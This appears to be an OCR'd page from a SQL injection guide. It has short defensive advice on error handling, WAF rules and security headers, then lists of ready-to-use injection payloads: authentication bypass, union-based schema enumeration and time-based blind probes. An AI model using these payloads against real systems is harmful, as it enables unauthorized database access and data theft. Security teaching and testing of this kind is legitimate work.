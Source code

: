 2. **Error Handling**
   - Don't expose database errors
   - Use generic error messages
   - Log errors securely

### Application Security
1. **WAF Implementation**
   - Deploy Web Application Firewall
   - Configure SQL injection rules
   - Monitor and update rules

2. **Security Headers**
   - Implement security headers
   - Use Content Security Policy
   - Enable HSTS

---

## Comprehensive Payload Lists {#payload-lists}

### Basic Injection Payloads
```
' OR '1'='1
' OR 1=1--
" OR "1"="1
" OR 1=1--
' OR 'x'='x
" OR "x"="x
' OR 1=1#
" OR 1=1#
' OR 1=1/*
" OR 1=1/*
```

### Union-Based Payloads
```
' UNION SELECT 1,2,3--
' UNION SELECT 1,2,3,4--
' UNION SELECT 1,2,3,4,5--
' UNION SELECT null,null,null--
' UNION SELECT version(),database(),user()--
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables--
' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns--
```

### Time-Based Blind Payloads
```
' AND SLEEP(5)--
' AND (SELECT SLEEP(5))--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
' AND pg_sleep(5)--
' AND WAITFOR DELAY '00:00:05'--
' AND (SELECT COUNT(*) FROM information_schema.tables WHERE SLEEP(5))--
```
